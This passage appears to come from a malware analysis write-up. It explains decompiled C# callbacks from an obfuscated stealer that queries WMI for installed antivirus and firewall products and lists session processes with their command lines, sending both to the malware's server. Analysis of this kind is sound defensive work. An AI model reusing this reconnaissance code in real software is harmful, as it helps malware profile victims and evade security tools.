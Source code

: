 Each program string is then formatted as: <Program Name> <Version>

Each program’s information is stored inside Entity7, which is the UserInfo class.

#### Callback 10
```csharp
public static void аловй(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
    Entity13 entity = connection.Id10(SystemInfoHelper.QueryAV()?.ToList());
    if (entity == Entity13.Id3)
    {
        аловй(connection, settings, ref result);
    }
    if (entity == Entity13.Id4)
    {
        throw new InvalidOperationException();
    }
}
```
The `SystemInfoHelper.QueryAV` function name should be self explanatory. This is getting information related to the antivirus.
- It retrieves the string "AntivirusProduct|AntiSpyWareProduct|FirewallProduct" and loops over each string (AntivirusProduct, AntiSpyWareProduct, FirewallProduct)
- Uses WMI to query `SELECT * FROM <str>` (where str is one of the 3 above) to the windows security center info (ROOT\\SecurityCenter) (used for older windows version), and to the windows security center info 2 (ROOT\\SecurityCenter2) (used in newer windows versions)
- It takes the result of the query, and adds the `displayName` value in the list.

⇒ So basically this function is just sending the list of names of each anti virus in the device to the server.

#### Callback 11
```csharp
public static void ыал8р45(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
    Entity13 entity = connection.Id20(SystemInfoHelper.QueryProc());
    if (entity == Entity13.Id3)
    {
        ыал8р45(connection, settings, ref result);
    }
    if (entity == Entity13.Id4)
    {
        throw new InvalidOperationException();
    }
}
```
`SystemInfoHelper.QueryProc():`
- Uses the query `SELECT * FROM Win32_Process Where SessionId='[SessionId]'` (where SessionId is just the malware process’ ID as retrieved with Process.GetCurrentProcess().SessionId)
⇒ Returns all processes with the same SessionID
- It sends to the server a list of string for each process and its information, formatted as:
`ID: <processId>, Name: <processName>, CommandLine: <commandLine>`

